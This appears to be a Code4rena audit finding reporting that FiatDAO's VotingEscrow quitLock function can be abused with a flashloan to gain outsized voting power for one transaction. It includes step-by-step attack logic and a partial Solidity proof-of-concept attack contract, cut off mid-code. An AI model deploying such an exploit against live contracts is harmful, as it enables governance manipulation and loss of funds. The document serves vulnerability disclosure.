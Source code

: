 

***

## [[M-08] Attackers can abuse the `quitLock` function to get a very large amount of votes](https://github.com/code-423n4/2022-08-fiatdao-findings/issues/237)
_Submitted by CertoraInc_

<https://github.com/code-423n4/2022-08-fiatdao/blob/fece3bdb79ccacb501099c24b60312cd0b2e4bb2/contracts/VotingEscrow.sol#L632-L659>

An attacker can use a flashloan and the quitLock function to achieve a large amount of votes for one transaction. It can, depends on the implementation of the modules that will use this contract, be used to pass malicious proposals or exploit any feature that depends on the voting balance.

### Proof of Concept

We assume here that there is a contract that provides a flashloan (for simplicity without fees, but can also work with fees, just requires the attacker to provide a larger amount of tokens) for the token that is used by the VotingEscrow contract.

1.  The attacker deploys a smart contract that implements the following logic and approves the contract for the token that is used in the `VotingEscrow` contract (of course assigning all the values of the variables).
2.  The attacker calls the `attack` function with the amount he wants to take as a flashloan (he will need to cover a penalty based on that amount).
3.  The `attack` function calculates the penalty and transfers it from the attacker.
4.  The `flashloan` function is called, which provides the tokens to the contract and then calls the `flashloanCallback` with the lent amount.
5.  The `flashloanCallback` function creates a lock with the amount received from the flashloan for a week (the unlock time can be changed to achieve larger votes balance, but it must be considered when calculating the penalty).
6.  The attacker can do whatever he wants with the amount of votes the contract currently has.
7.  The quitLock function is called to get back the funds (excluding the penalty), and the loan is payed back.

```sol
contract VotingEscrowAttack {
    IERC20 constant token = IERC20(0x...); // the token used in the VotingEscrow contract
    IVotingEscrow constant votingEscrow = IVotingEscrow(0x...); // the address of the VotingEscrow contract

    uint constant WEEK = 1 weeks;
    uint constant MAXTIME = 365 days;
    uint constant MAXPENALTY = 10**18;

    uint constant PENALTY_RATE = (WEEK * MAXPENALTY) / MAXTIME;

    IFlashLoan constant flashloanContract = IFlashLoan(0x...); // the address of the flashloan provider

    function attack(uint amount) external {
        uint penalty = (amount * PENALTY_RATE) / (10 ** 18);
        token.transferFrom(msg.sender, penalty); // assuming no flashloan fee
        IFlashLoan.flashloan(token, amount);
    }

    function flashloanCallback(uint amount) {
        votingEscrow.createLock(amount, block.timestamp + WEEK); // create a lock for a week with a very large of token

        // do whatever you want with your large amount of votes
        
        votingEscrow.quitLock();
        token.transfer(msg.sender, amount); // pay back the flashloan
```